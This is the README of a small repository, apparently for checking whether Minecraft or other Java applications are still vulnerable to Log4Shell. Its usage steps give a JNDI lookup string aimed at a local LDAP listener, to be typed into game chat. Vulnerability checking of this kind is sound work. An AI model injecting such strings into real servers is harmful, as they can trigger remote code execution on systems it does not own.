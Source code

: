 # Log4j-test
Don't use this maliciously, Just use this for testing Specifically for testing Minecraft, but this will probably work on other java applications. Use this to check if you're all patched.

# Usage:
 [1] Clone this repo `git clone https://github.com/FDMZ17/log4j-test`

 [2] Execute main.py file

 [3] Type `${jndi:ldap://127.0.0.1:8080}` in your minecraft chat

 [4] Done!
